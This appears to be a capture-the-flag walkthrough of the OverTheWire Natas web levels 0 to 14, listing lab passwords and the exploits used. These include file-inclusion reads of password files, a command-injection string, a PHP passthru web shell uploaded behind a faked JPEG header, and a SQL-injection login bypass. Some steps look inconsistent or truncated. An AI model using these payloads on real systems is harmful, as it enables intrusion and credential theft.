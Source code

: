 # Web
## Natas Wargame
* level 0
  * Username: natas0
  * Password: natas0
  * [URL] (http://natas0.natas.labs.overthewire.org)
  
* level 1
  * While seeing the source code we find the flag as comment.
  * The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto

* level 2
  * While seeing the source code we find the flag as comment.
  * The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
 
* level 3
  * In source code we find a png file containing a pixel, so opening it's directory gives us the user.txt file containing flag.
  * natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

* level 4
  * While seeing the source code we find the flag as comment.
  * natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

* level 5
  * The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq 
  * Installed burp suit & foxy proxy and referrer was changed to natas5 in url the refresh gives the flag.

* level 6
  * The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
  * again in burpsuit the value of 0 turned to 1

* level 7
  * $secret = "FOEIUWGHFEEUHOFUOIU"; entering this gives
  * Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 

* level 8
  * natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
  * view the link given source code.
  * encodedSecret = "3d3d516343746d4d6d6c315669563362";
  * DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
  * ```PHP CODE:<?
  * ```print base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));
  * ```?> 
  * ```OUTPUT: oubWYf2kBq

* level 9
  * Access granted.The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
  * ;ls  ;cat /etc/natas_webpass/natas10    giving this in the field and searching gives us  nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

* level 10
  * .* /etc/natas_webpass/natas11 #   when given in the search gives us the password.
  * /etc/natas_webpass/natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

* level 11
  * The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
  * ```<?
  * ```$key = base64_decode('ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sF0cIaAw');
  * ```$text = json_encode(array("showpassword"=>"no", "bgcolor"=>"#ffffff"));
  * ```$outText = ''; 
  * ```// Iterate through each character
  * ```for($i=0;$i<strlen($text);$i++) {
  * ```$outText .= $text[$i] ^ $key[$i % strlen($key)];}
  * ```print $outText;
  * ```?>
  * Output:  qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq!nJq
  * ```<?
  * ```$key = 'qw8J';
  * ```$text = json_encode(array("showpassword"=>"yes", "bgcolor"=>"#ffffff"));
  * ```$outText = '';
  * ```// Iterate through each character
  * ```for($i=0;$i<strlen($text);$i++) {
  * ```$outText .= $text[$i] ^ $key[$i % strlen($key)];}
  * ```print base64_encode($outText);
  * ```?>
  * Output:  ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK

* level 12
  * create an xyz.php file with contents as:
  * ```<?
  * ```passthru($_GET['cmd']);
  * ```?>
  * Uploaded this file, checked the vulnerabilities using burpsuit, set the file as .php
  * gave request as ---->  http://natas12.natas.labs.overthewire.org/upload/gcblmhl9mz.php?cmd=cat%20/etc/natas_webpass/natas13
  * jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 

* level 13
  * create an ab.php file with contents as:
  * ```<?
  * ```passthru($_GET['cmd']);
  * ```?>
  * Using hex editor did mention spaces FF D8 FF E0
  * Uploaded this file, checked the vulnerabilities using burpsuit, set the file as .php
  * gave request as ---->  http://natas12.natas.labs.overthewire.org/upload/gcblmhl9mz.php?cmd=cat%20/etc/natas_webpass/natas14
  * ����Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
  * 
* level 14
  * sqli injection
  * Username and password given as: " or "1"="1
  * Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

* level 15

* level 16
